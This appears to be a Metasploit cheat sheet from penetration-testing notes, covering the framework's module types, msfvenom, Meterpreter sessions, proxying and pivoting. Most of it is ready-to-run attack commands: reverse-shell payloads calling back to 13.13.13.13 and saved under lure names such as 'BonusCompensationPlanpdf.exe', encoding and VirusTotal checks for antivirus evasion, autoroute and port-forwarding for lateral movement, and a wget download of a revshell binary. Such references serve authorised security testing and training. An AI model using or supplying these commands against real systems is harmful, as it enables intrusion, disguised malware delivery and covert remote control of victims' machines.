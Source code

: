 # Metasploit

## <mark style="color:yellow;">ABOUT</mark>

The `Metasploit Project` is a Ruby-based, modular penetration testing platform that enables you to write, test, and execute the exploit code. This exploit code can be custom-made by the user or taken from a database containing the latest already discovered and modularized exploits. The `Metasploit Framework` includes a suite of tools that you can use to test security vulnerabilities, enumerate networks, execute attacks, and evade detection. At its core, the `Metasploit Project` is a collection of commonly used tools that provide a complete environment for penetration testing and exploit development. Files usually located at `/usr/share/metasploit-framework`.

* **What is MS Module?** A module is a piece of software that the Metasploit Framework uses to perform a task, such as exploiting or scanning a target. A module can be an exploit module, auxiliary module, or post-exploitation module.

## <mark style="color:yellow;">ARCHITECTURE</mark>

1. <mark style="color:blue;">**Auxiliary**</mark> - Any supporting module, such as scanners, crawlers and fuzzers.
2. <mark style="color:blue;">**Encoders**</mark> - Will allow you to encode the exploit and payload in the hope that a signature-based antivirus solution may miss them.
3. <mark style="color:blue;">**Evasion**</mark> - While encoders will encode the payload, they should not be considered a direct attempt to evade antivirus software. On the other hand, “evasion” modules will try that, with more or less success.
4. <mark style="color:blue;">**Exploits**</mark> - Exploits, neatly organized by target system.
5. <mark style="color:blue;">**NOPs**</mark> - `(No Operation code)` Keep the payload sizes consistent across exploit attempts.
6. <mark style="color:blue;">**Payloads**</mark> - Payloads are codes that will run on the target system.
7. <mark style="color:blue;">**Post**</mark> - Post modules would be useful in post-exploitation.

## <mark style="color:yellow;">MSFVENOM</mark>

**Msfvenom is a tool that is part of the Metasploit framework and it is a command line tool for generating different types of payloads for exploiting.** In addition to providing a payload with flexible delivery options, MSFvenom also allows us to `encrypt & encode` payloads to bypass common anti-virus detection signatures.

* **List Payloads**

```bash
msfvenom -l payloads
```

* **Building a Stageless Payload for Linux**

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=13.13.13.13 LPORT=443 -f elf > createbackup.elf
```

* **Building a Stageless Payload for Windows**

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=13.13.13.13 LPORT=443 -f exe > BonusCompensationPlanpdf.exe
```

### <mark style="color:blue;">Staged vs Stageless Payloads</mark>

<mark style="color:blue;">**`Staged`**</mark>**&#x20;payloads create a way for us to send over more components of our attack.** So if more simply, the whole payload has few stages, first to get connection and others to load additional programs

<mark style="color:blue;">**`Stageless`**</mark>**&#x20;payloads do not have a stage.** So all payload and programs are loaded at first time.

## <mark style="color:yellow;">METERPRETER</mark>

<mark style="color:blue;">**`The Meterpreter`**</mark> payload is a specific type of multi-faceted payload that uses `DLL injection` to ensure the connection to the victim host is stable, hard to detect by simple checks, and persistent across reboots or system changes. Meterpreter resides completely in the memory of the remote host and leaves no traces on the hard drive, making it very difficult to detect with conventional forensic techniques.

### <mark style="color:blue;">Encoder</mark>

* **Generating Payload - With Encoding**

```bash
msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -b "\x00" -f perl -e x86/shikata_ga_nai
```

* **List Encoders**

```bash
msf6 exploit(windows/smb/goose) > show encoders
```

* **MSF - VirusTotal**

```bash
msf-virustotal -k <API key> -f TeamViewerInstall.exe
```

### <mark style="color:blue;">Sessions</mark>

* **Listing Active Sessions**

```bash
msf6 exploit(windows/smb/goose) > sessions
```

* **Interacting with a Session**

```bash
msf6 exploit(windows/smb/goose) > sessions -i 1
```

* **Getting shell**

```bash
msf6 exploit(windows/smb/goose) > shell
```

* **Background session**

```bash
meterpreter > background
OR
Ctrl+Z
OR
meterpreter > bg
```

* **Killing session**

```bash
msf6 exploit(windows/smb/goose) > sessions -k 1
```

* **Listing Running Jobs**

```bash
msf6 exploit(multi/handler) > jobs -l
```

* **Run an Exploit as a Background Job**

```bash
msf6 exploit(multi/handler) > exploit -j
```

## <mark style="color:yellow;">MAKING PROXY</mark>

<pre class="language-bash"><code class="lang-bash"><strong># Configuring 
</strong><strong>msf6 > use auxiliary/server/socks_proxy
</strong>msf6 auxiliary(server/socks_proxy) > set SRVPORT 9050
msf6 auxiliary(server/socks_proxy) > set SRVHOST 0.0.0.0
msf6 auxiliary(server/socks_proxy) > set version 4a
msf6 auxiliary(server/socks_proxy) > run
# Confirming proxy is running
auxiliary(server/socks_proxy) > jobs

Jobs
====

  Id  Name                           Payload  Payload opts
  --  ----                           -------  ------------
  0   Auxiliary: server/socks_proxy
</code></pre>

## <mark style="color:yellow;">PIVOTING</mark>

### <mark style="color:blue;">Autoroute</mark>

<mark style="color:red;">**Autoroute**</mark> is used in penetration testing to enable <mark style="color:purple;">**network pivoting**</mark>, allowing attackers to route traffic through a compromised host to access internal **subnets** that are not directly reachable. This facilitates reconnaissance, exploitation, and lateral movement within isolated or segmented networks.

```bash
msf6 > use post/multi/manage/autoroute
msf6 post(multi/manage/autoroute) > set SESSION 1
msf6 post(multi/manage/autoroute) > set SUBNET 13.13.13.0
msf6 post(multi/manage/autoroute) > run
meterpreter > run autoroute -s 13.13.13.0/23
meterpreter > run autoroute -p # list active routes
```

### <mark style="color:blue;">Local Port-Forwarding</mark>

```bash
meterpreter > portfwd add -l 1234 -p 4321 -r 13.13.13.13
# Forward all packets on 1234 port to 4321 port on 13.13.13.13 host
```

### <mark style="color:blue;">Remote Port-Forwarding</mark>

```bash
meterpreter > portfwd add -R -l 1234 -p 4321 -L 13.13.13.13
# Forward all packets from 4321 port on 13.13.13.13 to our local 1234 port
```

## <mark style="color:yellow;">USEFUL MSFCONSOLE COMMANDS</mark>

* <mark style="color:blue;">**Specific Search**</mark>

```bash
msf6 > search type:exploit platform:windows cve:2021 rank:excellent microsoft
```

* <mark style="color:blue;">**Get more info about module**</mark>

```bash
info
```

* <mark style="color:blue;">**Permanent Target Specification**</mark>

```bash
msf6 exploit(windows/smb/amogus) > setg RHOSTS 13.13.13.13
```

* <mark style="color:blue;">**Show and Set Target for exploit**</mark>

```bash
msf6 exploit(windows/browser/goose) > show targets
...
msf6 exploit(windows/browser/goose) > set target 3
```

* <mark style="color:blue;">**Searching for Specific Payload**</mark>

```bash
msf6 exploit(windows/smb/goose) > grep meterpreter grep reverse_tcp show payloads
```

* <mark style="color:blue;">**Use Local Exploit Suggester**</mark>

```bash
msf6 > search local exploit suggester
```

* <mark style="color:blue;">**Ping Sweep**</mark>

```bash
run post/multi/gather/ping_sweep RHOSTS=13.13.13.0/23
```

## <mark style="color:yellow;">LIFEHACKS</mark>

* Use wget -o parameter when you want to install revshell file into machine like:&#x20;

```
wget http://13.13.13.13:1337/shell.exe -o shell.exe
```
